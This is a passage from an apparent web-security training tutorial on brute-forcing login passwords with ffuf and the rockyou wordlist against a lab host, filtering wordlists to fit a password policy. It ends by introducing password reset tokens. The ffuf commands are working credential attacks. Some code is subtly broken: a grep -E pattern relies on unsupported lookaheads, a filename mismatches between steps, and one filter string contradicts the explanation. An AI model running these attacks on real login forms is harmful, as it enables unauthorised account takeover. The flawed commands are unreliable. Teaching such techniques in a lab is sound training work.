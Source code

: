 To brute-force passwords, attackers typically use wordlists or password dictionaries. These wordlists contain common passwords, dictionary words, and leaked passwords from data breaches. Attackers can also generate custom wordlists based on information gathered from social media, OSINT, or password policies.

Let us use the rockyou.txt wordlist to brute-force the password for the user consuelo. We can specify the wordlist with the -w parameter, the POST data with the -d parameter, and the keyword FUZZ in the password to fuzz valid passwords. Finally, we can filter out invalid passwords by removing responses containing the string Invalid password:

'''bash
$ ffuf -w /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=consuelo&password=FUZZ" -fr "Invalid password"
'''

If a web application enforces a password policy, we should ensure that our wordlist only contains passwords that match the implemented password policy. Otherwise, we are wasting valuable time with passwords that users cannot use on the web application, as the password policy does not allow them.

For example, if a policy stablishes that passwords must be at least 10 characters long, contain at least one uppercase letter, one lowercase letter and one number, we should filter our wordlist to only include passwords that meet these requirements.

'''bash
$ grep -E "^(?=.*[a-z])(?=.*[A-Z])(?=.*[0-9]).{10,}$" /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt > /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou_filtered.txt

$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom wordlist.txt

'''

Upon providing an incorrect username, the login response contains the message (substring) "Invalid username", therefore, we can use this information to build our ffuf command to brute-force the user's password:

'''bash
$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
'''

## Brute-Forcing Password Reset Tokens

Password reset mechanisms are a common feature in web applications. They allow users to reset their passwords if they forget them. Typically, the user provides an email address or username, and the application sends a password reset link or token to the user's email address. The user can then use the link or token to reset their password.

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.
